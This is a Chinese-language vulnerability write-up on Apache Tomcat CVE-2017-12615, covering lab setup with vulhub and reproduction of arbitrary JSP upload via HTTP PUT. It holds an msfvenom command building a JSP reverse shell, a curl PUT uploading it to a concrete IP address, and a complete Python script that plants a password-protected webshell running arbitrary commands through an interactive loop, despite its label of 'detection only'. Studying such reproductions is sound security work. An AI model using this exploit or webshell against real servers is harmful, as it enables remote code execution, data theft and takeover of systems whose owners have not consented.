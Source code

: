 # Apache Tomcat 远程代码执行漏洞 CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

```
Apache Tomcat 7.0.0 - 7.0.81
```

## 环境搭建

```plain
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可



![image-20220209121152909](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091211024.png)



## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件

![image-20220209121208347](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091212466.png)

**msf**生成一个**jsp**木马

```plain
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```plain
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

- 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件

![image-20220209121223275](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091212346.png)

访问文件即可反弹一个shell

![image-20220209121238642](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091212721.png)

也可以用**DELETE**请求方法删除文件

![image-20220209121258159](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091212228.png)

## 漏洞POC

- 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 201 or response.status_code == 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)
```

![image-20220209121321777](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091213849.png)